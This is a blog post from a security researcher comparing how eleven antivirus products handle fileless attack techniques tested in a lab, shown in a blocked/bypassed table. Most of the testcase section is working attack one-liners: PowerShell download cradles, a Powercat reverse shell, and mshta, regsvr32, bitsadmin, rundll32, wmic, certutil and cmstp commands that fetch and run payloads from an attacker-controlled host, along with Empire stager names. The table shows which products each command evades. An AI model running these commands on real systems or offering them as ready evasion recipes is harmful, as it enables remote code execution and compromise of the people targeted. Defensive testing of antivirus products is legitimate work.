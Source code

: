 ```yaml
---
title: "AV comparison on fileless attack"
date: "2020-04-08"
layout: single
tags:
- Malware
categories:
- Blog-post
---
```


I've test some fileless command in my lab with AV Protection and here's the result.

| Symbol | Description |
|---|---|
| ✔️ | Blocked |
| ❌ | Bypassed |

---

| Fileless technique | Bitdefender | Avast | Symantec | Webroot | ESET | Karspersky | Sophos | TrendMicro | WinDef | Malwarebytes | Panda Adaptive | 
| --- | ---| ---| ---| ---| ---| ---| ---| ---| ---| ---|---|
| koadic `mshta` | ✔️| ❌|❌ | ❌| ✔️ |❌ | ❌| ❌| ✔️ |❌ |❌ |
| koadic `regsvr` | ✔️|❌ |❌ | ❌|✔️ |✔️ |✔️ |✔️ | ✔️| ❌| ✔️|
| koadic `rundll32_js` | ✔️|❌ |✔️ | ❌|✔️ | ✔️|❌ |✔️ | ✔️| ❌| ✔️|
| koadic `bitsadmin ` | ❌|✔️ |❌ |❌ |✔️ |❌ |✔️ |✔️ |✔️ |❌ | ✔️|
|koadic `disk`|✔️ | ❌| ❌|❌ |✔️ |❌ |✔️ |✔️ |✔️ |❌ | ✔️|
| koadic `wmic` | ✔️|❌ |✔️ |❌ |❌ |✔️ |✔️ | ✔️| ✔️|❌ | ✔️|
| Malicious Powershell line  |✔️ |✔️ |✔️ |❌ | ❌| ✔️|❌ |✔️ | ❌| ❌| ✔️|
| msvenom `msiexec ` |✔️ |✔️ | ✔️|✔️ |✔️ |✔️ | ✔️| ✔️|✔️ |✔️ | ✔️|
| msvenom `certutil `| ✔️| ✔️| ✔️|❌ | ✔️| ✔️|✔️ |✔️ |✔️ |✔️ | ✔️|
| msvenom `batch ` | ✔️| ✔️| ✔️|❌ | ❌|✔️ |❌ |❌  | ✔️|❌ |❌ |
| msvenom `cscript `(vbs)  |✔️ |✔️ |✔️ |❌ |✔️ |✔️ |✔️ |✔️ |✔️ | ✔️| ✔️|
| Powercat | ✔️|✔️ | ✔️|❌ |❌ | ❌|❌ |❌  |✔️ |❌ | ✔️|


# Testcase

My testcase are mostly using msvenom with metasploit and koadic.

## Powershell

Download and execute
```
powershell -NoLogo -Command "$webClient = new-object System.Net.WebClient; $webClient.DownloadFile('http://192.168.189.131:7777/evil.exe', '%temp%\evil.exe'); Start-Process -Filepath '%temp%\evil.exe'"
```

Powercat
```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.189.131:7777/powercat.ps1');powercat -c 192.168.189.131 -p 9999 -e cmd"
```

Msvenom batch
```
powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.189.131:7777/ms.bat'))
```

Msvenom Vbscript
```
powershell -NoLogo -Command "$webClient = new-object System.Net.WebClient; $webClient.DownloadFile('http://192.168.189.131:7777/ms.vbs', '%temp%\ms.vbs'); Start-Process %windir%\system32\cscript.exe -Filepath '%temp%\ms.vbs'"
```

Powershell empire stager
```
windows/launcher_bat
windows/launcher_lnk
windows/launcher_sct
windows/launcher_vbs
windows/launcher_xml
windows/backdoorLnkMacro  
windows/macro
windows/bunny             
windows/macroless_msword
windows/csharp_exe        
windows/shellcode
windows/dll               
windows/teensy
windows/ducky
windows/hta
```

Powersploit

## Koadic

Mshta
```
mshta http://192.168.189.131:9999/tT4Fh
```

Regsvr32
```
regsvr32 /s /u /n /i:http://192.168.189.131:9998/d2XfT scrobj
```

Bitsadmin
```
bitsadmin /transfer oZHsz /download /priority high http://192.168.189.131:9995/oZHsz.wsf %temp%\oZHsz.wsf & start /wait %temp%\oZHsz.wsf & del %temp%\oZHsz.wsf
```

Rundll32
```
rundll32.exe javascript:"\..\mshtml, RunHTMLApplication ";x=new%20ActiveXObject("Msxml2.ServerXMLHTTP.6.0");x.open("GET","http://192.168.189.131:9997/eTMXy",false);x.send();eval(x.responseText);window.close();
```

Wmic
```
wmic os get /FORMAT:"http://192.168.189.131:9996/pMeV8.xsl"
```

## Others

Certutil
```
certutil.exe -urlcache -split -f http://192.168.189.131:7777/ms.exe ms.exe & ms.exe
```

Cmstp
```
cmstp.exe /ni /s https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp.inf
```



# Note
Msvenom payload may easily detect by AV because of it's popularity used by many attacker and well recognized by its pattern.
